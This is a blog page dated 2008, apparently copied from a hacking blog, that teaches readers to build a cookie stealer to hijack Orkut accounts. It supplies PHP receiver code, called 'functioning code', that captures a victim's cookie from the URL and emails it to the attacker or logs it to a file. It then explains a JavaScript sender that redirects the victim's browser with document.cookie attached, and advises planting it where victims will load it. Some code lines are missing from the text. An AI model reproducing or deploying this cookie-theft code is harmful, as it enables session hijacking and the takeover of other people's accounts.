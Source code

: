```yaml
---
# http://learn.getgrav.org/content/headers
title: How to make cookies and hack Orkut accounts
slug: how-to-make-cookies-and-hack-orkut-accounts
# menu: How to make cookies and hack Orkut accounts
date: 29-05-2008
published: true
publish_date: 29-05-2008
# unpublish_date: 29-05-2008
# template: false
# theme: false
visible: true
summary:
    enabled: true
    format: short
    size: 128

taxonomy:
    category:
        - Blog
    tag:
        - orkut
    author:
        - 'Shashank Agarwal'
    migration-status: review
    category: [orkut]
    tag: []
author: 'Shashank Agarwal'
metadata:
    author: 'Shashank Agarwal'
#      description: Your page description goes here
#      keywords: HTML, CSS, XML, JavaScript
#      robots: noindex, nofollow
#      og:
#          title: The Rock
#          type: video.movie
#          url: http://www.imdb.com/title/tt0117500/
#          image: http://ia.media-imdb.com/images/rock.jpg
#  cache_enable: false
#  last_modified: true

---
```


[  
](http://learn-how-to-hack3.blogspot.com/2007/10/how-to-make-cookies-and-hack-orkut.html)[](http://learn-how-to-hack3.blogspot.com/2007/10/how-to-make-cookies-and-hack-orkut.html)

How to Make a Cookie Stealer

Introduction

Exactly how does a cookie stealer work, anyway? There are two components in a cookie stealer: the sender and the receiver.

The sender can take many forms. In essense, it’s just a link to the receiver with the cookie somehow attached. It can sometimes be difficult to find a way to implement the sender.

The receiver, as the name suggests, is a device which receives the cookie from the sender. It can also take several forms, but the most common is that of a PHP document, most commonly found residing on some obscure webserver.

Step One: The Code

Coding a receiver is the part with which most newbies struggle. Only two things are

needed to make a receiver: a webhost which supports PHP, and Notepad (see the end of the text for a link to some free PHP hosts).

As I said in the introduction, the receiver’s job is to receive the cookie from the sender. The easiest way to send information to a PHP document is by using the HTTP GET method, which appends information to the end of the URL as a parameter (for example, “page.php?arg1=value”). PHP can access GET information by accessing $HTTP\_GET\_VARS[x], where x is a string containing the name of the argument.

Once the receiver has the cookie, it needs a way to get that cookie to you. The two most common ways of doing this are sending it in an email, and storing it in a log. We’ll look at both.

First, let’s look at sending it in an email. Here is what such a beast would look like (functioning code):

$cookie = $HTTP\_GET\_VARS[“cookie”]; // line 2  
mail(“me@mydomain.com”, “Cookie stealer report”, $cookie); // line 3  
?> // line 4

Line 1 tells the server that this is indeed a PHP document.  
Line 2 takes the cookie from the URL (“stealer.php?cookie=x”) and stores it in the variable $cookie.  
Line 3 accesses PHP’s mail() function and sends the cookie to “me@mydomain.com” with the subject of “Cookie stealer report”.  
Line 4 tells the server that the PHP code ends here.

Next, we’ll look at my preferred method, which is storing the cookie in a logfile. (functioning code)

$cookie = $HTTP\_GET\_VARS[“cookie”]; // line 2  
$file = fopen(‘cookielog.txt’, ‘a’); // line 3  
fwrite($file, $cookie . “nn”); // line 4  
?> // line 5

Lines 1 and 2 are the same as before.  
Line 3 opens the file “cookielog.txt” for writing, then stores the file’s handle in $file.  
Line 4 writes the cookie to the file which has its handle in $file. The period between $cookie and “nn” combines the two strings as one. The “nn” acts as a double line-break, making it easier for us to sift through the log file.  
Line 5 is the same as before.

Step Two: Implementing the Stealer

The hardest part (usually) of making a cookie stealer is finding a way to use the sender. The simplest method requires use of HTML and JavaScript, so you have to be sure that your environment supports those two. Here is an example of a sender.

// Line 3

Line 1 tells the browser that the following chunk of code is to be interpereted as JavaScript.  
Line 2 adds document.cookie to the end of the URL, which is then stored in document.location. Whenever document.location is changed, the browser is redirected to that URL.  
Line 3 tells the browser to stop reading the code as JavaScript (return to HTML).

There are two main ways of implementing the sender:

You can plant your sender where the victim will view it as an HTML document with his browser. In order to do that, you have to find some way to actually post the code somewhere on the site.

Go to our new site- shankee.com
